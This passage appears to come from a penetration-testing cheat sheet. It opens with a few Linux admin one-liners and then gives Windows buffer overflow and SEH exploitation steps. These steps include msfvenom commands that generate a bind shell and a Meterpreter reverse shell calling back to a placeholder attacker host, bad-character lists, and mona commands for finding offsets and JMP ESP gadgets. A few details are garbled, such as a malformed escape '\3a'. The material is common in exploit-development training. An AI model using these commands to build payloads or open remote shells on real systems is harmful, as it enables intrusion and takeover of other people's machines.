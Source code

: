 # list crontabs for all users including AD
for user in $(getent passwd|cut -f1 -d:); do echo "### Crontabs for $user ####"; crontab -u $user -l; done
 
# generate random passwords
cat /dev/urandom| tr -dc ‘a-zA-Z0-9-_!@#$%^&*()_+{}|:<>?=’|fold -w 12| head -n 4
 
# find all immutable files, there should not be any
find . | xargs -I file lsattr -a file 2>/dev/null | grep ‘^….i’
 
# fix immutable files
chattr -i file
{% endhighlight %}

### Win Buffer Overflow Exploit Commands
{% highlight bash %}
msfvenom -p windows/shell_bind_tcp -a x86 --platform win -b "\x00" -f c
msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 -a x86 --platform win -e x86/shikata_ga_nai -b "\x00" -f c

COMMONLY USED BAD CHARACTERS:
\x00\x0a\x0d\x20                              For http request
\x00\x0a\x0d\x20\x1a\x2c\x2e\3a\x5c           Ending with (0\n\r_)

# Useful Commands:
pattern create
pattern offset (EIP Address)
pattern offset (ESP Address)
add garbage upto EIP value and add (JMP ESP address) in EIP . (ESP = shellcode )
 
!pvefindaddr pattern_create 5000
!pvefindaddr suggest
!pvefindaddr modules
!pvefindaddr nosafeseh
 
!mona config -set workingfolder C:\Mona\%p
!mona config -get workingfolder
!mona mod
!mona bytearray -b "\x00\x0a"
!mona pc 5000
!mona po EIP
!mona suggest
{% endhighlight %}

### SEH - Structured Exception Handling
{% highlight bash %}
https://en.wikipedia.org/wiki/Microsoft-specific_exception_handling_mechanisms#SEH
!mona suggest
!mona nosafeseh
nseh="\xeb\x06\x90\x90" (next seh chain)
iseh= !pvefindaddr p1 -n -o -i (POP POP RETRUN or POPr32,POPr32,RETN)
{% endhighlight %}
